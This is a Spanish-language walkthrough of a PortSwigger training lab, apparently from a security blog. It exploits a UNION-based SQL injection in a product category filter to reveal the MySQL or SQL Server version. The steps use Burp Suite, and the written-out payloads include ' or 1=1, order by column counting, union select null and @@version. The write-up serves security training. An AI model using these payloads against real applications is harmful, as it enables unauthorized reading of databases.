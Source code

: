 ```yaml
---
title: ""
date: 2024-11-13 12:34:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, querying the database type and version on MySQL and Microsoft
  - Microsoft SQL Server
  - MySQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Hay que utilizar un `ataque UNION` para `recuperar` los `resultados` de la consulta, para `resolver` el `laboratorio` debemos `mostrar` la `versión` de la `base` de `datos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-4/image_1.png)

`Pinchamos` en alguna de las `categorías`, `capturamos` la `petición` con `Burpsuite` y le `añadimos` una `'` a `category`

![](/assets/img/SQLI-Lab-4/image_2.png)

Si `enviamos` la `petición` nos dará un `Internal Server Error` debido a que hemos logrado `interferir` con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-4/image_3.png)

Si usamos este `payload`, ya habremos `solucionado` el `error` que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Gifts'+or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-4/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Gifts'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es `ignorar` el resto de la `query`

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Gifts'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-4/image_5.png)

Sin embargo. si ponemos un `número` de `columnas` que `no existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Gifts'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-4/image_6.png)

A continuación usamos `union select` para señalar ambos campos, debido a que la `query` no ha dado ningún `error`, podemos `descartar` que el tipo de base de datos sea `Oracle`. Si fuera `Oracle` daría un error debido a que hay que añadir `from dual` al `union select`

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Con `@@version` podemos `enumerar` la `versión` de las `bases` de `datos` de `Microsoft` y las `MySQL`

```
/filter?category=Gifts'+union+select+null,@@version--+-+
```

![](/assets/img/SQLI-Lab-4/image_7.png)

También es posible `enumerar` las bases de datos `MySQL` usando `version()` en ciertos casos

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-4/image_8.png)
